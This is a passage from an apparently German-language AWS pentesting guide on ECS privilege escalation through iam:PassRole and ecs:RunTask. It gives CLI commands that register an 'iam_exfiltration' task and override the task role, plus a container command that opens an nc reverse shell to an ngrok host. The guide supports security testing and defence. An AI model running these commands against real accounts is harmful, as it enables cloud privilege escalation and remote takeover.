 ```bash
--family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 \
--memory 512 \
--requires-compatibilities FARGATE \
--container-definitions file://container-definition.json

# Check the webhook for a response

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1

```
{{#endtab }}

{{#endtabs }}

**Potential Impact:** Direktes privesc zu einer anderen ECS-Rolle.

### `iam:PassRole`,`ecs:RunTask`
Ein attacker, der über die Berechtigungen `iam:PassRole` und `ecs:RunTask` verfügt, kann eine neue ECS-Task starten und dabei die **execution role**, **task role** und den **command**-Wert des Containers ändern. Der `ecs run-task` CLI-Befehl enthält die Option `--overrides`, mit der zur Laufzeit `executionRoleArn`, `taskRoleArn` und das `command` des Containers geändert werden können, ohne die Task Definition anzufassen.

Die angegebenen IAM-Rollen für `taskRoleArn` und `executionRoleArn` müssen in ihrer Trust-Policy zulassen bzw. darauf vertrauen, dass sie von `ecs-tasks.amazonaws.com` übernommen (assumed) werden.

Außerdem muss der attacker wissen:
- ECS-Cluster-Name
- VPC Subnetz
- Security Group (Wenn keine Security Group angegeben ist, wird die Standard-Security Group verwendet)
- Task Definition Name und Revision
- Name des Containers
```bash
aws ecs run-task \
--cluster <cluster-name> \
--launch-type FARGATE \
--network-configuration "awsvpcConfiguration={subnets=[<subnet-id>],securityGroups=[<security-group-id>],assignPublicIp=ENABLED}" \
--task-definition <task-definition:revision> \
--overrides '
{
"taskRoleArn": "arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
"containerOverrides": [
{
"name": <container-name>,
"command": ["nc", "4.tcp.eu.ngrok.io", "18798", "-e", "/bin/bash"]
}
]
}'
```
Im obigen Code-Snippet überschreibt ein attacker nur den Wert `taskRoleArn`. Der attacker muss jedoch die Berechtigung `iam:PassRole` sowohl für die in dem Befehl angegebene `taskRoleArn` als auch für die in der Task-Definition angegebene `executionRoleArn` besitzen, damit der Angriff möglich ist.

